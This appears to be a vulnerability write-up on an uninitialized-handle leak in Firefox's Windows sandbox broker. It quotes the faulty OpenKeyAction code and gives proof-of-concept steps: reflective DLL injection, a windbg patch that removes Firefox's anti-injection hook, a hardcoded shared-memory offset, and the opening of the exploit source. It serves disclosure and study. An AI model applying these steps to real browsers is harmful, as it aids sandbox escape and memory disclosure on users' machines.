 ```c
bool RegistryPolicy::OpenKeyAction(EvalResult eval_result,
                                   const ClientInfo& client_info,
                                   const base::string16& key,
                                   uint32_t attributes,
                                   HANDLE root_directory,
                                   uint32_t desired_access,
                                   HANDLE* handle,
                                   NTSTATUS* nt_status) {
  // The only action supported is ASK_BROKER which means open the requested
  // file as specified.
  if (ASK_BROKER != eval_result) {
    *nt_status = STATUS_ACCESS_DENIED;
    return true; // should be balse, handle is not written
  }
// [...]
  return true;
}
```

**Exploit**<br>
The POC uses the reflective DLL injection tool from Stephen Fewer. https://github.com/stephenfewer/ReflectiveDLLInjection Simply change ReflectiveDll.c and Sandbox.h. Firefox prevents DLL injections by hooking `kernel32!BaseThreadInitThunk`. You can remove that using this windbg command: `eb kernel32!BaseThreadInitThunk 8b ff 55 8b ec`

In order to find IPC Shared Memory, the POC simply uses `OFFSET_TO_G_SHARED_IPC_MEMORY` as an offset between the firefox module base and `firefox!g_shared_IPC_memory`. Here is the exact version used for which the offset works.

`$ hg log -l 1`<br>
`changeset: 451842:8330fe920aea`

```c
/*
this is some code to trigger the uninitialized handle leak
it leaks stack memory from the broker
in this case, the leaked value used to be a return address
*/

#include "ReflectiveLoader.h"
#include "Sandbox.h"

#define OFFSET_TO_G_SHARED_IPC_MEMORY 0x000411c0
#define STATUS_ACCESS_DENIED          ((NTSTATUS)0xC0000022L)
#define IPC_NTOPENFILE_TAG 4

typedef unsigned int uint32_t;
typedef _Return_type_success_(return >= 0) LONG NTSTATUS;

typedef enum _ResultCode {
	SBOX_ALL_OK = 0,
	// Error is originating on the win32 layer. Call GetlastError() for more
	// information.
	SBOX_ERROR_GENERIC = 1,
	// An invalid combination of parameters was given to the API.
	SBOX_ERROR_BAD_PARAMS = 2,
	// The desired operation is not supported at this time.
	SBOX_ERROR_UNSUPPORTED = 3,
	// The request requires more memory that allocated or available.
	SBOX_ERROR_NO_SPACE = 4,
	// The ipc service requested does not exist.
	SBOX_ERROR_INVALID_IPC = 5,
	// The ipc service did not complete.
	SBOX_ERROR_FAILED_IPC = 6,
} ResultCode;
```